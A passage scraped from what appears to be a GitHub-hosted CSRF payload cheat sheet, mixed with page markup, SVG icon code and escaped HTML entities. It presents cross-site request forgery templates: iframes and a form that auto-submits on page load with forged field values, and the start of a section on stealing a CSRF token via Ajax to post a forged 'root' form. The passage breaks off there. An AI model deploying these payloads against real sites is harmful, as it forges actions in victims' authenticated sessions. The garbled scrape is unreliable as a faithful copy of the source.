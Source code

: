 <iframe id=&quot;frame1&quot; name=&quot;frame1&quot; src=&quot;http://google.com?param=VALUE&quot; onload=&quot;readframe1()&quot; 
sandbox=&quot;allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation&quot;
height=&quot;600&quot; width=&quot;800&quot;></iframe>

<iframe id=&quot;frame2&quot; name=&quot;frame2&quot; 
sandbox=&quot;allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation&quot;
height=&quot;600&quot; width=&quot;800&quot;></iframe>
<body onload=&quot;document.forms[0].submit()&quot;>
<form id=&quot;bypass&quot; name&quot;bypass&quot; method=&quot;POST&quot; target=&quot;frame2&quot; action=&quot;http://google.com?param=VALUE&quot; enctype=&quot;multipart/form-data&quot;>
  <input type=&quot;text&quot; name=&quot;username&quot; value=&quot;z&quot;>
  <input type=&quot;checkbox&quot; name=&quot;status&quot; checked=&quot;&quot;>        
  <input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;0000&quot; />
  <button type=&quot;submit&quot;>Submit</button>
</form>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-poststeal-csrf-token-with-ajax-and-send-a-post-with-a-form" class="anchor" aria-hidden="true" href="#poststeal-csrf-token-with-ajax-and-send-a-post-with-a-form"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>POSTSteal CSRF token with Ajax and send a post with a form</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;body onload="getData()"&gt;

&lt;form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data"&gt;
  &lt;input type="hidden" name="username" value="root"/&gt;
  &lt;input type="hidden" name="status" value="on"/&gt;
  &lt;input type="hidden" id="findtoken" name="token" value=""/&gt;
  &lt;input type="submit" value="valider"/&gt;
&lt;/form&gt;
